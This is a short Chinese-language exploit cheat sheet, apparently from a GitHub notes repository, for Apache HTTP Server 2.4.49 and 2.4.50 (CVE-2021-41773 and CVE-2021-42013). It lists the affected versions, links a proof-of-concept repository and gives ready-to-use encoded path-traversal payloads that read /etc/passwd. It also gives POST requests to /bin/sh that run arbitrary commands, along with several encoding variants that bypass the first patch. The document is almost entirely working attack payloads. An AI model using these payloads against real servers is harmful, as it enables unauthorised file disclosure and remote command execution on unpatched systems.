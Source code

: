 # apache

---
- 漏洞类别：目录穿越+命令执行
- 漏洞编号：CVE-2021-41773
- 影响版本：2.4.49
- 时间：2021.10
- POC:https://github.com/knqyf263/CVE-2021-41773

```
# 目录穿越 -get
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd 
# 命令执行 -post
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh
echo Content-Type: text/plain; echo; 命令
```
- 漏洞类别：目录穿越+命令执行
- 漏洞编号：CVE-2021-42013（绕过了CVE-2021-41773的修复补丁）
- 影响版本：2.4.50
- 时间：2021.10
```
%%32%65%%32%65 or .%%32%65 or .%%32e or .%2%65 均可
以.%%32%65为例
# 目录穿越 -get
/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd 
# 命令执行 -post
/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh
echo Content-Type: text/plain; echo; 命令
```